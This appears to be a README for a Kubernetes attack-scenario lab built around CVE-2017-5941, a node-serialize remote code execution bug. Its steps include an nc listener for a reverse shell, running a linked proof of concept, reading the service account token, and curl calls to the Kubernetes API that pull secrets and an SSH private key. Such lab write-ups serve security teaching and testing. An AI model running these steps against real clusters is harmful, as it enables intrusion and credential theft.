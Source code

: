 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Tactics Used
Initial Access: Application vulnerability \
Execution: Application exploit (RCE), Bash or cmd inside container \
Credential Access: List Kubernetes secrets

### Steps to Reproduce

1- `minikube start` \
2- `kubectl apply -f scenario-3-server.yaml` \
3- Create a test github account, generate SSH key and add to this account, we used an account with temporary mail.
4- Generate and add secret with base64 encoding with `kubectl create secret generic github-ssh-key --from-file=ssh-privatekey=/path/to/github_key`
3- Forward port `kubectl port-forward pods/scenario-3-server-deployment-c9b7c56cf-ggvgm 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- install curl with `apt-get -y update; apt-get -y install curl`
7- Because of the misconfigured permissions, attacker can access the secrets with `TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)`
8- Get pods with `curl --insecure --header "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/default/pods`
7- Get secrets (the SSH Key) with Kubernetes API calls `curl --insecure --header "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/default/secrets`
8- Attacker now has the ssh-privatekey
9- Attacker finds the repository url (which is https://github.com/exploit-me-co/exploit-this) in server.js, now they can access the repository with full access.

## Demo
https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/8e12be1a-de1a-4394-8157-72a7854a6245

